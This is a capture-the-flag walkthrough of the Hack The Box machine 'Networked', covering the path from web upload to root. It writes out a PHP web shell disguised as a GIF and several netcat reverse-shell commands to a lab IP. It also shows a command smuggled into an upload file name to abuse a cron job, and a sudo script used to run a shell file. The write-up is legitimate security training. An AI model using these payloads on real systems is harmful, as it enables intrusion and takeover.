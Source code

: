 # Netwroked

<h1 align="center">
  <br>
  <a href="https://www.hackthebox.eu/home/machines/profile/203"><img src="images/img.png" alt="networked"></a>
  <br>
</h1>
<h4 align="center"> Author: <a heref="https://www.hackthebox.eu/home/users/profile/8292" > guly</a></h4>

***

__Machine IP__: 10.10.10.146

__DATE__ : 21/09/2019

__START TIME__: 11:07 AM

***

## Nmap

![](images/nmap.png)

I've got two open port and one closed port. Obviously we'll start our enumeration with HTTP service.

***

## HTTP

When we visit the IP in our browser we get a very simple web page with nothing fancy, just some text.

![](images/website.png)

So I ran `gobuster` on the website and found few directories.

![](images/gobuster.png)

First I checked the `/backup` directory and it had a `.tar` file in there.

![](images/backup.png)

That file had 4 files named

* `lib.php`
* `index.php`
* `photos.php`
* `upload.php`

Now if we try to visit `/upload.php` on the website we get option to upload a file. I tried uploading a `phpbash` shell but got error about the `Invalid image file`.

![](images/error.png)

This is means we need to upload our shell in an image file so I made a file name `shell.php.gif` having the following content.

```php
GIF89a;
<?php system($_GET['cmd']);?>
```

Then uploaded it. This file can be found on `/uploads` + `it is your IP address (with '.' replaced by '_') plus the extension`.

So my interface IP is `10.10.14.225` and the file I uploaded was `shell.php.gif` so my file will be found on `/uploads/10_10_14_225.php.gif`.

![](images/rce.png)

Now we have the RCE, using that we can get a shell:

```bash
➜ http http://10.10.10.146/uploads/10_10_14_225.php.gif\?cmd\="nc -e /bin/sh 10.10.14.225 4444"
```

![](images/rev.png)

I tried reading the user flag but got `permission denied`

![](images/user-denied.png)

***

## Horizontal privilege escalation

In `/home/guly` I found a php file named `check_attack.php`

```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}
```

The vulnerability that we are going to use here is in `exec("rm -f $logpath")`
Basically this `check_attack.php` is trying to remove the files in `/var/www/html/uploads` directory. So if we name file `hello.php;ls` it will run command as the user `guly`.

so I did

```bash
$ touch /"var/www/html/uploads/shell.php;nc -c bash 10.10.14.225 1337"
```
Then start the listener and wait because the `check_attack.php` is ran by a cronjob. After few minutes I got the shell as user `gully`

![](images/guly.png)

Now I can get the user hash.

![](images/user.png)

***

## Lateral Privilege Escalation

I ran `sudo -l` to see if this user have some sudo rights or not.

![](images/sudo-right.png)

We can see that `guly` can run `/usr/local/sbin/changename.sh` as root.

Following is the content of that file

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

Just run the script and focus on the out.

![](images/output.png)

It asks for inputs like name, interface etc. The important thing is that it takes input. So we can try something like `;nc -c /bin/sh 10.10.14.225 4444`. But if we give that as input we'll get error saying `wrong input` cause there is regex in the source i.e `regexp="^[a-zA-Z0-9_\ /-]+$"` so we cannot use anything other then those chars.

To bypass this I made a file called `shell` with the following data in it:

```bash
$ echo "nc -e /bin/sh 10.10.14.225 4444" > shell
$ chmod +x shell
```

![](images/make-shell.png)

Then in place of `NAME` I ented `bash /home/guly/shell` and entered radnom things in other inputs and BOOM 💥💥💥

![](images/exp.png)

This gives us a `root reverse shell`.

![](images/root-shell.png)

Now we can grab the root flag.

![](images/root.png)

***

This was really a fun machine. Nothing was supposed to be `guessed`. From the initial foothold to privilege escalation everything is sensible.

Thanks to [guly](https://twitter.com/theguly) for making this box. Also thanks to [@theart42](https://twitter.com/theart42) for helping me with user.

***

Thanks for reading, Feedback is always appreciated

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more "Writeups".
